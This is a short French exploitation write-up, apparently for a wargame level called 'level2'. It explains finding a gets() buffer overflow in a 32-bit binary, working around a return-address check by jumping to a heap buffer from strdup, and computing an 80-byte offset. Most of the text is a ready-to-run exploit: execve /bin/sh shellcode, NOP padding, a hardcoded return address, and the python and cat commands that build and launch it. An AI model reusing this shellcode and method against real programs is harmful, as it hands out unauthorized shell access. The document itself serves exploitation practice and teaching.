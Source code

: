 # level2

# après analyse du binaire avec gdb, on voit la fonction gets qui est vulnérable aux attaques buffer overflow

# mais on voit qu'il y a une protection sur l'adresse de retour de la pile a cause de la ligne +39 et +44, on va donc essayer de mettre un shellcode sur la heap grace a strdup qui fait u malloc

ltrace ./level2

# on récupere l'adresse de retour 0x0804a008 pour le strdup

# ensuite on recupere l'offset en lancant avec gdb puis en faisant un run avec un pattern (https://wiremask.eu/tools/buffer-overflow-pattern-generator/?) on trouve un offset de 80 avec l'adresse 0x37634136

# il nous faut maintenant un shell code a envoyer avec l'adresse de retour qui va être celle de strdup 0x0804a008

http://shell-storm.org/shellcode/files/shellcode-841.php
\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80

# ce qui va nous donné le shelle code, 80 - 21 = 59 x NOP et l'adresse de retour:

python -c 'print "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" + "\x90"*59 + "\x08\xa0\x04\x08"' > /tmp/level2

cat /tmp/level2 - | ./level2
